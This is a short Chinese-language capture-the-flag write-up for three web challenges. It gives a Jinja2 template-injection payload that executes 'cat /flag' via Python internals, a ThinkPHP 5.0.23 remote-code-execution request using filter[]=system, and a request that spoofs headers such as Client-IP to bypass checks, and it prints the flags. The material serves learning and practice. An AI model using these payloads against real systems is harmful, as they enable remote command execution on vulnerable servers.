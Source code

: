 Web

## fake google

> 知识点：SSTI

> 题解

1. 根据源代码注释提示，SSTI模板注入
2. 注入

```
{% for c in [].__class__.__base__.__subclasses__() %}
{%if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
{%endif%}
{% endfor %}
```

## old-hack

> 知识点：ThinkPHP5.0.23 远程RCE

> 题解

```
POST http://244a0b0a-7187-4c12-b732-c4c75557924b.node3.buuoj.cn/?s=captcha

{
    "_method": "__construct",
    "filter[]": "system",
    "server[REQUEST_METHOD]": "cat /flag"
}
```

> flag{5c1565e5-6062-4416-b15a-75d3bc704bc6}

## 假猪套天下第一

> 题解

```
GET /L0g1n.php
Cookie: PHPSESSID=29l41t2qh0buaagirh7tlqrsu6; time=253400544000
Client-IP: 127.0.0.1
User-Agent: Commodore 64
from: root@gem-love.com
via: y1ng.vip
```

> flag{d68b92d3-635a-492d-9411-8c603ba1561c}